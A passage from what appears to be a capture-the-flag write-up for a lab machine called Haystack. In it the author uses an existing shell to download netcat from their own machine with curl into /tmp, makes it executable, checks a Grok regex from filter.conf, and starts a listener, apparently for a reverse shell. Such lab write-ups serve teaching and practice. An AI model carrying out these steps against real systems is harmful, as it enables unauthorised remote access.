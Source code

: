 I move to /tmp (as I can assume it's writable), use `curl -O` to get `nc` onto the machine, and make it executable.

{% highlight plaintext %}
bash-4.2$ cd /tmp
bash-4.2$ curl -O 10.10.14.31:3333/nc
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 27400  100 27400    0     0   143k      0 --:--:-- --:--:-- --:--:--  143k
bash-4.2$ chmod +x nc
{% endhighlight %}

Now that we have netcat on the machine, we have to make sure our file content matches the regex in filter.conf. 

Did you notice the "grok" in filter.conf? The regex is run through a Grok processor, so we can use a tool like this [Grok debugger](https://grokdebug.herokuapp.com/) to ensure that our file contents will match.

![](/images/haystack/image9.png)

Now with a matching expression, I can create my file. I set up a netcat listener on my Kali machine.
